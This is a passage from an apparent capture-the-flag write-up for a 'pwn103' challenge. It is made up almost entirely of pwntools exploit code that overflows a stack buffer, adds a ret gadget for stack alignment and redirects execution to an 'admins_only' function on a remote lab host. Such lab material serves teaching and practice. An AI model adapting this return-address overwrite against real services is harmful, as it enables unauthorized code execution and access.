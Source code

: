 ```python
payload = b"A"*0x20 + b"B"*0x8 + ret_instruction + admins_only_address


p.sendline(payload)

p.interactive()
```

## Exploit (remote)

```python
from pwn import *

context.binary = binary = ELF("./pwn103.pwn103")

#p = process()
p = remote("10.10.16.17",9003)

p.sendline(b"3")
#admins_only_address = p64(0x00401554)
# alternative call

admins_only_address = p64(binary.symbols.admins_only)

ret_instruction = p64(0x00401377)

# payload before MOVAPS - adding ret_instruction
#payload = b"A"*0x20 + b"B"*0x8 + admins_only_address

# payload after fixing the bug
payload = b"A"*0x20 + b"B"*0x8 + ret_instruction + admins_only_address

p.sendline(payload)

p.interactive()
```

![picture 27](/assets/images/533f858df18c62e27d0bbd90775eb0224d14b59ebc7ecdda4a72be337f3da890.png)  
